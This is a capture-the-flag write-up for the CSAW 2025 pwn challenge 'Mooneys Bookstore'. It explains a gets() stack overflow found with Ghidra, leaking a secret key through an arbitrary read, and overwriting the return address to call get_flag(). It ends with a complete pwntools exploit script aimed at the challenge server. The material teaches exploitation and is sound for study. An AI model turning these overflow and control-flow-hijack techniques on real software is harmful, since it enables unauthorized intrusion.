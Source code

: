 ```yaml
---
title: "CSAW CTF Quals' 2025: Mooneys Bookstore"
permalink: /csaw-ctf-quals-2025
---
```


# Mooneys Bookstore
We are given a pwn challenge binary, `overflow_me`.

First, we look at the file's info with `file overflow_me` and see we are working with an x86-64 ELF file that hasn't been stripped:
```
overflow_me: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d6a8fb91df07f04d257b59b8230f6ddb1d8507e, for GNU/Linux 3.2.0, not stripped
```

Then, we check the security mechanisms in place with `checksec overflow_me` and see there is no canary and that the stack is not executable:
```
[*] '/Users/lomichael/ctf/csaw2025/mooneys-bookstore/overflow_me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Running the binary (`./overflow_me`), we see the printout below, prompting us for an address:
```
Mooney's. The bell above the door cries out, and suddenly... it's you. Of course it's you.
Every shelf bends toward you, every page waits to be touched by you.
You think you're just here to buy a book. But I know better.
You came here to be seen. By me.

Your favorite book waits for you. Tell me its address

```

Since we do not know what address to provide, we analyze the binary in Ghidra to see what is going on.

The `main()` function decompiled by Ghidra looks like:
```C
undefined8 main(void)

{
  FILE *ctx;
  long local_18;
  undefined8 *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  ctx = stdin;
  setvbuf(stdin,(char *)0x0,2,0);
  init((EVP_PKEY_CTX *)ctx);
  puts(&DAT_00402018);
  puts("\nYour favorite book waits for you. Tell me its address");
  read(0,&local_10,8);
  printf("%lx\n",*local_10);
  puts("\nOf course there\'s a key. There always is. If you speak it, the story unlocks");
  read(0,&local_18,8);
  if (local_18 == secret_key) {
    get_input();
  }
  else {
    puts(&DAT_004021b0);
  }
  return 0;
}
```

In the decompiled code above, we can see that if we successfully provide the `secret_key`, the `get_input()` function will be called. Conveniently, the code dumps the value at an address for us, in the lines:
```C
puts("\nYour favorite book waits for you. Tell me its address");
read(0,&local_10,8);
printf("%lx\n",*local_10);
```
We can use this to get the value of the address labeled `secret_key` (i.e. 0x004040b8) and thus pass the check to call `get_input()`.

Inspecting the `get_input()` function in Ghidra, we see:
```C
void get_input(void)

{
  char local_58 [64];
  long local_18;
  FILE *local_10;
  
  local_10 = fopen("/dev/urandom","rb");
  if (local_10 == (FILE *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fread(&val,8,1,local_10);
  fclose(local_10);
  local_18 = val;
  printf("\n\tA post-it on the floor. You would have stepped over it. I didn\'t. It has something fo r you: 0x%lx\n"
         ,val);
  puts("\nYour turn now. Write yourself into this story.");
  fflush(stdout);
  gets(local_58);
  if (local_18 != val) {
    puts("\nDisappointing. But that\'s you, isn\'t it? Messy. Human. And I stay anyway.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return;
}
```

Immediately, notice the line `gets(local_58)`, which is a common vulnerability, allowing unbounded input. Abusing this, we can overflow the buffer `local_58`, writing into other parts of the stack. There is no obvious way to print the flag in the decompiled `get_input()` function, but we know that we can write into the return address using the stack buffer overflow vulnerability. We can look in the "Functions" section of the Symbol Tree in Ghidra and see a `get_flag()` function that `cat`s the flag for us:
```C

void get_flag(void)

{
  fflush(stdout);
  system("cat flag.txt");
  fflush(stdout);
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```
If we place the address of this `get_flag()` function (i.e. 0x00401425) as the return address for the current stack frame, we can hijack the control flow to end up in `get_flag()`.

Before we do this, however, we must be cautious, since `get_input()` does a comparison with the `val` variable. If this check fails, the function exits prematurely, not returning the control flow to the `get_flag()` function. So, we must ensure that the value on the "post-it" printed by the program is inserted in the proper local (`local_18`) on the stack, so the check can pass.

So, our plan of attack now looks like:
- Send the address labeled `secret_key` to get its value
- Send the `secret_key` value to call `get_input()`
- Place `val` in `local_18` to avoid a premature exit()
- Place address of `get_flag()` into the ret address and return

Putting it together in a pwntools script we then get:
```Python
from pwn import *

p = remote("chals.ctf.csaw.io", 21006)

p.recvuntil(b"Tell me its address")
p.send(p64(0x4040b8)) # send address of secret_key to get its value

throwaway = p.recvline().strip()
line = p.recvline().strip()
secret_key = int(line, 16)

p.send(p64(secret_key)) # send secret_key to pass check before call get_input()

while b'0x' not in line:
    line = p.recvline().strip()

val = int(line.split(b'0x')[1], 16) # parse the output to get val

payload = b'\x00' * 0x40 # pad the stack until local_18
payload += p64(val) # set local_18 to val
payload += b'\x00' * 0x10 # pad stack to ret address
payload += p64(0x401425) # set the ret address to get_flag

p.sendline(payload)

p.interactive()
```

Some explanations for the math behind the payload numbers:
- `gets(local_58)` writes into a 64-byte buffer at ebp-0x58
- writing 0x40 null bytes starting at ebp-0x58 lands us at ebp-0x18 which is the start of `local_18`
- after we write the 8-byte `val` into `local_18` at ebp-0x18 we are then writing at ebp-0x10
- writing 0x10 more null bytes lands us at the point where we can overwrite the return address 
